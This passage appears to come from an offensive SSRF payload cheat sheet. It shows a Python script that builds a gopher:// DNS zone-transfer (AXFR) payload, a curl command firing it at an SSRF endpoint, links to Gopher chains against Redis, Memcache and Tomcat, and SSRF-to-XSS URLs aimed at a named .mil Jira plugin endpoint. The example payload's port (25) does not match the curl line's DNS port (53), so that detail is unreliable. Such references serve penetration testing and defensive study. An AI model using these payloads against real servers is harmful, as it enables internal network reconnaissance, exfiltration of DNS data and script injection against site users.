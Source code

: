 
**Possible via Gopher**

- [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
- [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
- [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)

## **SSRF to AXFR DNS**

Query an internal DNS resolver to trigger a full zone transfer (AXFR) and exfiltrate a list of subdomains.

`from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')`

Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```

## **SSRF to XSS**

by [@D0rkerDevil & @alyssa.o.herrera](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)

`http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg`

## **SSRF from XSS**

**Using an iframe**

The content of the file will be integrated inside the PDF as an image or text.
